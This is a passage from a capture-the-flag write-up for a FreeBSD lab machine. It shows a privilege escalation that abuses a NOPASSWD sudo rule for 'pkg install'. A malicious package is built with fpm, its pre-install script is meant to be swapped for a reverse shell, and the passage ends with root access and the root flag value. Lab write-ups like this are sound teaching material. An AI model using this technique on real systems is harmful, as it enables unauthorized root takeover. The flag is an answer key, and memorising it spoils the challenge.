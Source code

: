 Tried to do **sudo -l** but sudo is not found by the PATH environment paths. Lets search for it
```
cmd: find / -type f -name "*sudo*" 2>/dev/null
/usr/local/bin/sudo

cmd: /usr/local/bin/sudo -l
User jamie may run the following commands on Schooled:                                           
    (ALL) NOPASSWD: /usr/sbin/pkg update                    
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

In the **gtfobins** page we have an entry for the pkg binary. We need to create a **freeBSD** package locally, upload it and install it in order to privesc to root
```bash
# LOCAL:

cmd: TF=$(mktemp -d)
cmd: echo 'id' > $TF/x.sh   # replace ID with a FreeBSD revshell
cmd: fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF

Note: Here i renamed the package to w.txz
-------------------------
# REMOTE
cmd: /usr/local/bin/sudo /usr/sbin/pkg install -y --no-repo-update w.txz
```

And, it's done
```bash
cmd: whoami && id
root                                                                       
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)

cmd: cat /root/root.txt
FLAG: 3b03f13b55a432de19f392d810bf6489
```